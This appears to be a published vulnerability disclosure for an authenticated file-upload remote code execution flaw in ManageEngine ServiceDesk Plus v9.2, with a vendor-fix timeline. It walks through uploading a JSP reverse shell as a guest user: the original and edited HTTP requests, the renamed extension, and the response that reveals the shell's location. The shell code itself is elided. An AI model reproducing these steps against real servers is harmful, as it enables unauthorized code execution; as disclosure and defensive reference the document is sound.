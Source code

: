 # manageeningefileupload


Exploit Title: Authenticated Remote Code Execution via File Upload Vulnerability in ManageEngine ServiceDesk Plus (Authenticated)


Date: 14-Nov-2016


Discovered by Omer Alper Karakus (omeralperkarakus[at]gmail.com), Abdullah Sinan Sekerci (lpthread999[at]gmail.com), Anil Aytac (4nl[at]aytac.email), Asli Koksal (koksal.a[at]gmail.com), STM


Affected Product: ManageEngine ServiceDesk Plus


Tested on: v9.2 build number 9232

<pre>
File upload vulnerability can only be exploited by an authenticated user which can also be any low privileged user like guest (default account: u:guest/p:guest)
This vulnerability can be exploited by uploading a JSP file instead of image file. Since the file extension has been checked on the client side, it is possible to upload a jsp file which contains a reverse shell by intercepting the request and changing the file extension from .jsp.jpg to .jsp.
</pre>
<pre>
REQUEST:
===========================================================================================
POST /jsp/UploadImage.jsp HTTP/1.1
Host: 192.168.56.142:8080
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.142:8080/WorkOrder.do?1479198413617&
Cookie: JSESSIONID=FE6E5837539BFDE8DA78680F00B251A2; JSESSIONIDSSO=B469F14D393E3113D28896A41F79B0D8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------229512600118535
Content-Length: 1902

-----------------------------229512600118535
Content-Disposition: form-data; name="img_file"; filename="shell.jsp.jpg"
Content-Type: image/jpeg

{...JSP reverse shell code...}

-----------------------------229512600118535
Content-Disposition: form-data; name="zereqid"


-----------------------------229512600118535
Content-Disposition: form-data; name="Module"

WorkOrder
-----------------------------229512600118535--
</pre>

<pre>
EDITED REQUEST:
===========================================================================================
POST /jsp/UploadImage.jsp HTTP/1.1
Host: 192.168.56.142:8080
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.142:8080/WorkOrder.do?1479198413617&
Cookie: JSESSIONID=FE6E5837539BFDE8DA78680F00B251A2; JSESSIONIDSSO=B469F14D393E3113D28896A41F79B0D8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------229512600118535
Content-Length: 1902

-----------------------------229512600118535
Content-Disposition: form-data; name="img_file"; filename="shell.jsp"
Content-Type: image/jpeg

{...JSP reverse shell code...}

-----------------------------229512600118535
Content-Disposition: form-data; name="zereqid"


-----------------------------229512600118535
Content-Disposition: form-data; name="Module"

WorkOrder
-----------------------------229512600118535--
</pre>
<pre>
After a succesful request, the response shows us the location of our reverse shell file:
RESPONSE
===========================================================================================
HTTP/1.1 200 OK
Content-Type: text/html;charset=UTF-8
Content-Length: 528
Date: Tue, 15 Nov 2016 08:27:55 GMT
Connection: close
Server: -
		<script lang="JavaScript" type="text/JavaScript">
  		var formName = parent.document.getElementById("FORMNAME").value;
		var opts = parent.document.forms[formName].INLINEIMAGES.options;
		var imgName = "1479198475119.jsp";
		var option = new Option(imgName, imgName);
		option.selected = true;
		opts[opts.length] = option;
  		//alert("/inline/"+"WorkOrder"+"/"+"4"+"/"+"1479198475119.jsp");
  		parent.ZE.activeEditor.previewImage("/inline/"+"WorkOrder"+"/"+"4"+"/"+"1479198475119.jsp");//No i18n
		</script>
</pre>		
		
<pre>
Timeline
======
 
15-Nov-2016 – Notification to Vendor
18-Nov-2016 – Response from Vendor
01-Dec-2016 - Issue has been fixed by vendor https://www.manageengine.com/products/service-desk/readme-9.2.html
</pre>
